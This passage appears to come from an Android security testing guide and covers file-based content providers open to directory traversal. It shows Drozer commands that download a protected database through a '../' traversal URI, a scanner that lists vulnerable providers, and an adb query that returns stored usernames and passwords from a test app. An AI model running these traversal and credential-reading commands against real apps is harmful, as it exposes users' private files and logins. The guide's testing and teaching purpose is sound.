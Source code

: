 ### File System Based Content Providers
Content providers can provide access to the underlying filesystem. This allows apps to share files (the Android sandbox normally prevents this). You can use the Drozer modules `app.provider.read` and `app.provider.download` to read and download files, respectively, from exported file-based content providers. These content providers are susceptible to directory traversal, which allows otherwise protected files in the target application's sandbox to be read.

`dz> run app.provider.download content://com.vulnerable.app.FileProvider/../../../../../../../../data/data/com.vulnerable.app/database.db /home/user/database.db Written 24488 bytes`

Use the `scanner.provider.traversal` module to automate the process of finding content providers that are susceptible to directory traversal:

`dz> run scanner.provider.traversal -a com.mwr.example.sieve Scanning com.mwr.example.sieve... Vulnerable Providers:   content://com.mwr.example.sieve.FileBackupProvider/   content://com.mwr.example.sieve.FileBackupProvider`

Note that `adb` can also be used to query content providers:

`$ adb shell content query --uri content://com.owaspomtg.vulnapp.provider.CredentialProvider/credentials Row: 0 id=1, username=admin, password=StrongPwd Row: 1 id=2, username=test, password=test ...`

## Resources

- [Query method in ContentProvider Class ↗](https://developer.android.com/reference/android/content/ContentProvider.html#query%28android.net.Uri%2C%20java.lang.String[]%2C%20java.lang.String%2C%20java.lang.String[]%2C%20java.lang.String%29 "Query method in ContentProvider Class")
- [Sieve - Vulnerable Password Manager ↗](https://github.com/mwrlabs/drozer/releases/download/2.3.4/sieve.apk "Sieve - Vulnerable Password Manager")